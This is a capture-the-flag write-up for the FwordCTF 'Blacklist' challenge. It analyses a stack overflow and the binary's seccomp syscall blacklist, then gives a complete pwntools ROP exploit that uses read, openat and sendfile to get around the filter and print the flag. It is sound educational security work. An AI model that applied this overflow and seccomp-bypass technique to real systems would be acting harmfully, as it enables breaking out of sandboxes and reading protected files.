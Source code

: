 ## FwordCTF Blacklist Writeup
#### Tags: pwn, seccomp bypass, rop

We are given a statically linked binary:

```shell
$ file ./blacklist
./blacklist: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=8231fd8232118e3b92ca37d041e1da3ab1daf4d9, for GNU/Linux 3.2.0, stripped
```

From analzying the binary, we can see it uses seccomp to restrict syscalls, then waits for input:

```shell
$ strace ./blacklist
...
seccomp(SECCOMP_SET_MODE_FILTER, 0, {len=24, filter=0x902350}) = 0
read(0, 
```

We can easily overflow, find the offset and control rip, but due to seccomp, it will be much harder to read the flag.

```shell
$ ./blacklist
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```

Let's analyze the seccomp profile using [seccomp-tools](https://github.com/david942j/seccomp-tools):

```shell
$ seccomp-tools dump ./blacklist
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x15 0xc000003e  if (A != ARCH_X86_64) goto 0023
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x12 0xffffffff  if (A != 0xffffffff) goto 0023
 0005: 0x15 0x11 0x00 0x00000001  if (A == write) goto 0023
 0006: 0x15 0x10 0x00 0x00000002  if (A == open) goto 0023
 0007: 0x15 0x0f 0x00 0x00000012  if (A == pwrite64) goto 0023
 0008: 0x15 0x0e 0x00 0x00000014  if (A == writev) goto 0023
 0009: 0x15 0x0d 0x00 0x00000038  if (A == clone) goto 0023
 0010: 0x15 0x0c 0x00 0x00000039  if (A == fork) goto 0023
 0011: 0x15 0x0b 0x00 0x0000003a  if (A == vfork) goto 0023
 0012: 0x15 0x0a 0x00 0x0000003b  if (A == execve) goto 0023
 0013: 0x15 0x09 0x00 0x0000003e  if (A == kill) goto 0023
 0014: 0x15 0x08 0x00 0x00000065  if (A == ptrace) goto 0023
 0015: 0x15 0x07 0x00 0x000000c8  if (A == tkill) goto 0023
 0016: 0x15 0x06 0x00 0x00000113  if (A == splice) goto 0023
 0017: 0x15 0x05 0x00 0x00000128  if (A == pwritev) goto 0023
 0018: 0x15 0x04 0x00 0x00000130  if (A == open_by_handle_at) goto 0023
 0019: 0x15 0x03 0x00 0x00000135  if (A == getcpu) goto 0023
 0020: 0x15 0x02 0x00 0x00000142  if (A == execveat) goto 0023
 0021: 0x15 0x01 0x00 0x00000148  if (A == pwritev2) goto 0023
 0022: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0023: 0x06 0x00 0x00 0x00000000  return KILL
 ```
All the syscalls listed above are blocked.
Also attempting to switch to 32 bit mode to use 32 bit syscalls is not allowed.

We need to bypass the seccomp filter and read the flag somehow (it's path is known). After looking at the [amd64 syscall table](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/), we can find some useful syscalls that allow us to read the flag:
 * read - to read the path of the flag into a known address
 * openat - to open the flag file and get the fd
 * sendfile - to transfer data between file descriptors (we can transfer to fd 1 stdout)

Now because the binary is statically linked, we will have plenty of rop gadgets to use. I chose to write a rop chain that uses only these syscalls. Another approach is to write custom shellcode, then use mprotect to mark the section of the shellcode as executable, and execute it.

Before I wrote the rop chain, I tested the syscalls in a [c program](idea.c) in order to test it easily:
```c
#include <fcntl.h>
#include <sys/sendfile.h>

int main() {
    // read(0, RW_ADDR, 900); // write path of flag to known address
    int fd = openat(0, "/path/to/flag.txt", O_RDONLY); // imagine that RW_ADDR points to the string "/path/to/flag.txt"
    sendfile(1, fd, 0, 0xffff);
    return 0;
}
```

Now the [final exploit](solve.py):
```py
from pwn import *

context(arch="amd64")
elf = ELF("./blacklist")

DEBUG = False
REMOTE = True

if DEBUG:
    p = gdb.debug("./blacklist", gdbscript="""
    b *0x4017b6
    continue
    """)
elif REMOTE:
    p = remote("blacklist.fword.wtf",1236)
else:
    p = process(elf.path)

offset = 72

read_n = 0
openat_n = 257 
sendfile_n = 40

pop_rdi_ret = 0x00000000004017b6#: pop rdi; ret;
pop_rsi_ret = 0x00000000004024f6#: pop rsi; ret;
pop_rdx_ret = 0x0000000000401db2#: pop rdx; ret;
pop_rax_ret = 0x0000000000401daf#: pop rax; ret;
pop_r10_ret = 0x0000000000401db1#: pop r10; ret;
syscall_ret = 0x000000000041860c#: syscall; ret;

string_addr = 0x004d1260
path_str = "/home/fbi/aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacma.txt\x00"

# first payload to read string from stdin
payload = b""
payload += b"A"*offset 
payload += p64(pop_rdi_ret)
payload += p64(0) # arg1 fd
payload += p64(pop_rsi_ret)
payload += p64(string_addr) # arg2 buf
payload += p64(pop_rdx_ret)
payload += p64(300) # arg3 count
payload += p64(pop_rax_ret)
payload += p64(read_n)
payload += p64(syscall_ret) # read

# second payload to open the flag using openat
payload += p64(pop_rdi_ret)
payload += p64(0) # arg1 (doesn't matter)
payload += p64(pop_rsi_ret) 
payload += p64(string_addr) # arg2 path
payload += p64(pop_rdx_ret)
payload += p64(0) # arg3
payload += p64(pop_rax_ret)
payload += p64(openat_n)
payload += p64(syscall_ret) # openat

flag_fd = 3 # new fd of the flag will always be 3

# third payload to write flag to stdout using sendfile
payload += p64(pop_rdi_ret)
payload += p64(1) # arg1 dst fd: stdout
payload += p64(pop_rsi_ret)
payload += p64(flag_fd) # arg2 src fd: flag_fd
payload += p64(pop_rdx_ret)
payload += p64(0) # arg3 offset
payload += p64(pop_r10_ret)
payload += p64(0xffff) # arg4 count
payload += p64(pop_rax_ret)
payload += p64(sendfile_n)
payload += p64(syscall_ret) # sendfile

p.sendline(payload)
p.sendline(path_str)
p.interactive()
```

And we get the flag!
**FwordCTF{th3_n4M3_1s_El1Z4be7h_K33n}**

Overall a really fun challenge.
